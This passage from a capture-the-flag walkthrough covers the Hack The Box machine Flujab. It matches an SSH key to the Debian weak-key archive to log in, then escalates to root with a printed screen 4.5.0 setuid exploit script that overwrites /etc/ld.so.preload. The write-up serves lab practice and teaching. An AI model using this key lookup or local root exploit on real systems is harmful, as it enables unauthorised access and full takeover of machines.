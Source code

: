 If I have to guess, I would say the compromised keys are linked to the Debian OpenSSL Predictable PRNG [issue](https://github.com/g0tmi1k/debian-ssh). In that case, we can easily search for the corresponding private key from the archive (which can be downloaded from the same URL) containing the 4096-bit keypairs.

```
# tar jtvf debian_ssh_rsa_4096_x86.tar.bz2 | grep $(ssh-keygen -E md5 -l -f 0223269.pub | cut -d' ' -f2 | cut -d ':' -f2- | tr -d ':')
-rw------- root/root      3239 2008-05-14 22:22 rsa/4096/dead0b5b829ea2e3d22f47a7cbde17a6-23269
-rw-r--r-- root/root       740 2008-05-14 22:22 rsa/4096/dead0b5b829ea2e3d22f47a7cbde17a6-23269.pub
```

We need just the private key. Let's extract it.

```
# tar jxvf debian_ssh_rsa_4096_x86.tar.bz2 rsa/4096/dead0b5b829ea2e3d22f47a7cbde17a6-23269
rsa/4096/dead0b5b829ea2e3d22f47a7cbde17a6-23269
```

Time to log in!

<a class="image-popup">
![3f44591b.png](/assets/images/posts/flujab-htb-walkthrough/3f44591b.png)
</a>

The `user.txt` is found in `drno`'s home directory.

<a class="image-popup">
![d3064752.png](/assets/images/posts/flujab-htb-walkthrough/d3064752.png)
</a>

## Privilege Escalation

Privilege escalation is pretty straight forward from here.

<a class="image-popup">
![2dc3462d.png](/assets/images/posts/flujab-htb-walkthrough/2dc3462d.png)
</a>

Simply follow the steps outlined in EDB-ID [41154](https://www.exploit-db.com/exploits/41154). As there's no `gcc` in the remote box, remove the lines that attempt to write and compile source codes. Instead, compile them in your attacking machine and `scp` them to `/tmp` in the remote box.

<div class="filename"><span>screenroot.sh</span></div>

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
export PATH=/usr/local/share/screen:$PATH
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```


[1]: https://www.hackthebox.eu/home/machines/profile/171
[2]: https://www.hackthebox.eu/home/users/profile/6983
[3]: https://www.hackthebox.eu/